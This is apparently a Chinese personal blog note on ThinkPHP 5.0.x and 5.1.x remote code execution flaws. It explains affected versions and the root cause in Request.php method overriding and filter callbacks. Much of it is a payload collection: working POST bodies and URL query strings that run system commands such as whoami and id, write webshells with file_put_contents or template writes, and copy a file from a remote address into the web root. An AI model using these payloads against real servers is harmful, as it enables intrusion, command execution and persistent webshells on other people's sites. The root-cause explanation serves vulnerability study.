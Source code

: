 ```yaml
---
layout: post
title: THINKPTP5_RCE
date: 2022-10-7
categories: blog
tags: [笔记]
description: tp5 rce漏洞 梳理

---
```


## Thinkphp5.x rce

***

### ThinkPHP5.0.x 变量覆盖RCE

#### 影响版本

`5.0.0 - 5.0.23`

#### 漏洞成因

利用`伪全局变量覆盖`达到命令执行的目的  
在`thinkphp/library/think/Request.php`的`method`方法存在漏洞，可以通过post数组传入`__method`任意调用Request类中的方法  
Request中的`__construct`方法中`foreach`调用可以覆盖Request类中的属性，导致原本的`filter`可以被覆盖成`system`  
Thinkphp5中定义了验证码类路由地址`?s=captcha`，默认这个方法能够调用`Request::instance()->param()`  
执行`$request->param()`会进入`input()`方法，在这个方法中将覆盖的`filter`回调`call_user_func()`，实现rce

理解：`__construct()`中的`$this->$name = $item` 做到类属性任意覆盖，被覆盖的类属性又被用在`call_user_func()`中

5.0.13之后版本默认debug=false 需要开启debug后才能利用此漏洞进行命令执行，可以通过添加路由触发rce

#### payload收集

```php
5.0.1-5.0.13 
//命令执行
POST ?s=index/index
s=whoami&_method=__construct&method=POST&filter[]=system
aaaa=whoami&_method=__construct&method=GET&filter[]=system
_method=__construct&method=GET&filter[]=system&get[]=whoami
c=system&f=calc&_method=filter

//写shell
POST
s=file_put_contents('test.php','<?php phpinfo();')&_method=__construct&method=POST&filter[]=assert

5.0.13-5.0.23
//开启debug命令执行
POST ?s=index/index
_method=__construct&filter[]=system&method=GET&s=calc

//无需开启debug命令执行
POST ?s=captcha/calc
_method=__construct&filter[]=system&method=GET
POST ?s=captcha
_method=__construct&filter[]=system&s=calc&method=get
    
//需开启debug写shell
POST
s=file_put_contents('test.php','<?php phpinfo();')&_method=__construct&method=POST&filter[]=assert
```

### ThinkPHP5.1.x未开启强制路由

#### 影响版本

`5.1.0 - 5.1.30`

#### 漏洞成因

thinkphp默认未开启强制路由且默认开启路由兼容模式  
兼容模式可以调用控制器(controller)执行，根据前一个RCE漏洞可知所有用户参数都会调用Request::input()  
其会调用filterValue方法，此方法中包含call_user_func

理解：流程中没有对控制器进行合法校验，导致可以调用任意控制器，实现rce

#### payload收集 

```php
#命令执行
5.0.x
?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
5.1.x
?s=index/\think\Request/input&filter[]=system&data=pwd
?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id

#写入webshell
5.0.x
?s=/index/\think\app/invokefunction&function=call_user_func_array&vars[0]=assert&vars[1][]=copy(%27远程地址%27,%27333.php%27)
5.1.x
?s=index/\think\template\driver\file/write&cacheFile=shell.php&content=<?php phpinfo();?>
?s=index/\think\view\driver\Think/display&template=<?php phpinfo();?>  //shell生成在runtime/temp/md5(template).php
?s=/index/\think\app/invokefunction&function=call_user_func_array&vars[0]=assert&vars[1][]=copy(%27远程地址%27,%27333.php%27)
```
